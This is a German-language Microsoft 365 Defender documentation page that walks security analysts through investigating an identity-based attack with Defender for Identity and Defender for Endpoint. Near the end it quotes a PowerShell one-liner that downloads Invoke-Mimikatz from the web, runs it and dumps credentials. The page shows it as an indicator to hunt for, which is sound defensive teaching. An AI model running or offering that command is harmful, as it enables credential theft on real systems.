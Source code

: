 ```yaml
---
title: Beispiel für einen identitätsbasierten Angriff
description: Gehen Sie durch eine Beispielanalyse eines identitätsbasierten Angriffs.
keywords: Vorfälle, Warnungen, untersuchen, Korrelation, Angriff, Computer, Geräte, Benutzer, Identitäten, Identität, Postfach, E-Mail, 365, microsoft, m365, Reaktion auf Vorfälle, Cyberangriff
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: josephd
author: JoeDavies-MSFT
localization_priority: Normal
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: c028289a58247075c33e85d6d6f3797b3ddad7b4
ms.sourcegitcommit: de5fce90de22ba588e75e1a1d2e87e03b9e25ec7
ms.translationtype: MT
ms.contentlocale: de-DE
ms.lasthandoff: 05/10/2021
ms.locfileid: "52297188"
---
```

# <a name="example-of-an-identity-based-attack"></a>Beispiel für einen identitätsbasierten Angriff

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**Gilt für:**
- Microsoft 365 Defender

Microsoft Defender for Identity kann dabei helfen, böswillige Versuche zu erkennen, Identitäten in Ihrer Organisation zu schädlich zu machen. Da Defender for Identity in Microsoft 365 Defender integriert ist, können Sicherheitsanalysten Einblick in Bedrohungen von Defender for Identity erhalten, z. B. mutmaßliche Netlogon-Rechteerweiterungsversuche.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Analysieren des Angriffs in Microsoft Defender for Identity

Microsoft 365 Defender ermöglicht Es Analysten, Warnungen nach Erkennungsquelle auf der Registerkarte **Warnungen** auf der Seite Vorfälle zu filtern. Im folgenden Beispiel wird die Erkennungsquelle nach **Defender for Identity gefiltert.** 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Beispiel für das Filtern der Erkennungsquelle für Defender for Identity":::

Wenn Sie **die Warnung für mutmaßliche Überführungen im** Hash auswählen, wird eine Seite in Microsoft Cloud App Security angezeigt, auf der ausführlichere Informationen angezeigt werden. Sie können immer mehr über eine Warnung oder einen Angriff erfahren, [](https://docs.microsoft.com/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) indem Sie **Weitere** Informationen zu diesem Warnungstyp auswählen, um eine Beschreibung des Angriffs sowie Korrekturvorschläge zu lesen.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="Beispiel für eine mutmaßliche Benachrichtigung über die Überführung des Hashangriffs"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Untersuchen desselben Angriffs in Microsoft Defender for Endpoint

Alternativ kann ein Analyst Defender for Endpoint verwenden, um mehr über die Aktivität auf einem Endpunkt zu erfahren. Wählen Sie den Vorfall aus der Warteschleife aus, und wählen Sie dann die Registerkarte **Warnungen** aus. Von hier aus können sie auch die Erkennungsquelle identifizieren. Eine Erkennungsquelle, die als EDR bezeichnet wird, steht für Endpoint Detection and Response, also Defender for Endpoint. Hier wählt der Analyst eine warnung aus, die von einem EDR.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Beispiel für eine Endpunkterkennung und -antwort in Defender for Endpoint"::: 

Auf der Warnungsseite werden verschiedene relevante Informationen angezeigt, z. B. der Name des betroffenen Geräts, der Benutzername, der Status der automatischen Untersuchung und die Warnungsdetails. Der Warnungsstory zeigt eine visuelle Darstellung der Prozessstruktur. Die Prozessstruktur ist eine hierarchische Darstellung von übergeordneten und untergeordneten Prozessen im Zusammenhang mit der Warnung.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Beispiel für eine Benachrichtigungsprozessstruktur in Defender for Endpoint"::: 

Jeder Prozess kann erweitert werden, um weitere Details anzuzeigen. Details, die ein Analyst sehen kann, sind die tatsächlichen Befehle, die als Teil eines bösartigen Skripts eingegeben wurden, ip-Adressen für ausgehende Verbindungen und andere nützliche Informationen.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Beispiel für Prozessdetails in Defender for Endpoint":::
 
Wenn Sie **in der Zeitachse anzeigen** auswählen, kann ein Analyst einen Drilldown noch weiter gehen, um den genauen Zeitpunkt des Kompromisses zu ermitteln. 

Microsoft Defender for Endpoint kann viele schädliche Dateien und Skripts erkennen. Aufgrund vieler legitimer Verwendungen für ausgehende Verbindungen, PowerShell und Befehlszeilenaktivitäten würden einige Aktivitäten jedoch als gutartig angesehen, bis eine schädliche Datei oder Aktivität erstellt wird. Daher hilft die Verwendung der Zeitachse Analysten, die Warnung in den Kontext mit der umgebenden Aktivität zu setzen, um die ursprüngliche Quelle oder den Zeitpunkt des Angriffs zu bestimmen, die andernfalls durch allgemeine Dateisystem- und Benutzeraktivitäten verdeckt werden. 

Zu diesem Zeitpunkt würde ein Analyst zum Zeitpunkt der Warnungserkennung (in Rot) beginnen und einen Bildlauf nach unten durchführen, um zu bestimmen, wann die ursprüngliche Aktivität, die zu den schädlichen Aktivitäten führte, tatsächlich gestartet wurde. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Beispiel für das Starten zum Zeitpunkt der Warnungserkennung"::: 

Es ist wichtig, allgemeine Aktivitäten wie Windows Updateverbindungen, Windows vertrauenswürdigen Softwareaktivierungsverkehr, andere häufige Verbindungen zu Microsoft-Websites, Internetaktivitäten von Drittanbietern, Microsoft Endpoint Configuration Manager-Aktivitäten und andere gutartige Aktivitäten von verdächtigen Aktivitäten zu verstehen und zu unterscheiden. Eine Möglichkeit dazu ist die Verwendung von Zeitachsenfiltern. Es gibt viele Filter, die bestimmte Aktivitäten hervorheben können, während alles herausfiltert wird, was der Analyst nicht anzeigen möchte. 

In der folgenden Abbildung hat der Analytiker gefiltert, um nur Netzwerk- und Prozessereignisse anzeigen zu können. Auf diese Weise kann der Analyst die Netzwerkverbindungen und Prozesse sehen, die das Ereignis umgeben, Editor eine Verbindung mit einer IP-Adresse hergestellt hat, die wir auch in der Prozessstruktur gesehen haben. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Beispiel, wie Editor zum Herstellen einer schädlichen ausgehenden Verbindung verwendet wurde"::: 

In diesem speziellen Ereignis wurde Editor verwendet, um eine schädliche ausgehende Verbindung herzustellen. Häufig verwenden Angreifer jedoch einfach iexplorer.exe, um Verbindungen zum Herunterladen einer schädlichen Nutzlast herzustellen, da normalerweise iexplorer.exe Prozesse als reguläre Webbrowseraktivitäten angesehen werden.

Ein weiteres Element, nach dem sie in der Zeitachse suchen sollten, wäre die Verwendung von PowerShell für ausgehende Verbindungen. Der Analyst würde nach erfolgreichen PowerShell-Verbindungen mit Befehlen suchen, z. B. gefolgt von einer ausgehenden Verbindung zu einer Website, die `IEX (New-Object Net.Webclient)` eine schädliche Datei hosten. 

Im folgenden Beispiel wurde PowerShell zum Herunterladen und Ausführen von Mimikatz von einer Website verwendet:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
Ein Analytiker kann schnell nach Schlüsselwörtern suchen, indem er das Schlüsselwort in der Suchleiste eintippt, um nur ereignisse anzeigen zu können, die mit PowerShell erstellt wurden. 

## <a name="next-step"></a>Nächster Schritt

Weitere Informationen finden Sie unter Phishing-Untersuchungspfad. [](first-incident-path-phishing.md)

## <a name="see-also"></a>Siehe auch

- [Übersicht über Vorfälle](incidents-overview.md)
- [Verwalten von Vorfällen](manage-incidents.md)
- [Untersuchen von Vorfällen](investigate-incidents.md)
